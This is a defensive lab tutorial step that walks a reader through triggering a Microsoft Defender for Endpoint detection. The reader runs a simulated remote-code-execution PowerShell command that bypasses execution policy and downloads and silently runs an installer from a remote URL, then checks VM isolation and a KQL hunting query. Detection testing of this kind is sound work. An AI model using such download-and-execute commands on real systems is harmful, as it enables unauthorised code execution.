 # Step 3: Triggering the Detection and Observing the Automated Response

In this step, we simulate a Remote Code Execution (RCE) event by running a crafted PowerShell command. This will trigger the custom detection rule created earlier and initiate automatic isolation and forensic evidence collection.

---

## Objective

- Execute a PowerShell command that mimics an RCE attack
- Trigger the detection rule
- Confirm that the VM is automatically isolated
- Confirm that an investigation package is being collected

---

## Simulated Attack Command

Run the following command from **inside your onboarded Windows VM**:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\ProgramData\7z2408-x64.exe' -ArgumentList '/S' -Wait"
````

This command:

* Downloads the 7-Zip installer using `Invoke-WebRequest`
* Silently installs it using `Start-Process`

> Make sure this command exactly matches what your detection rule is designed to catch.

---

## What to Expect

Once the command is executed:

1. **Log entries appear** in the `DeviceProcessEvents` table (within \~1–2 minutes)
2. Your detection rule will **fire an alert**
3. MDE will:

   * Automatically **isolate the VM**
   * Start **collecting an investigation package**

---

## Validate the Detection

### Option 1: Monitor via MDE Portal

* Go to: [https://security.microsoft.com](https://security.microsoft.com)
* Navigate to:

  ```
  Incidents & Alerts → Alerts
  ```
* Look for an alert titled `Potential PowerShell RCE Detected on VM`

### Option 2: Search via Advanced Hunting

Use this KQL query to confirm detection logs:

```kql
DeviceProcessEvents
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
  and InitiatingProcessCommandLine contains "Start-Process"
| order by Timestamp desc
```

---

## Is VM Isolated?

* Try pinging or remoting into the VM — you should be blocked
* In the MDE Portal:

  * Go to `Assets → Devices`
  * Click your VM and confirm the "Isolated" tag is active

---

## Is Investigation Package Collected?

* Go to:
  ```
  Action Center → Investigation Packages
  ```
* Wait until the package status shows **Completed**
* Download it for offline review (covered in Step 4)

---

## Outcome

At the end of this step:

* Your simulated RCE event was detected
* The VM was automatically isolated from the network
* An investigation package was generated for forensic analysis

---

If nothing happens after several minutes, double-check:
> * Your VM name is correctly referenced in the KQL
> * The PowerShell command syntax matches your detection query
> * Logs are appearing in `DeviceProcessEvents`
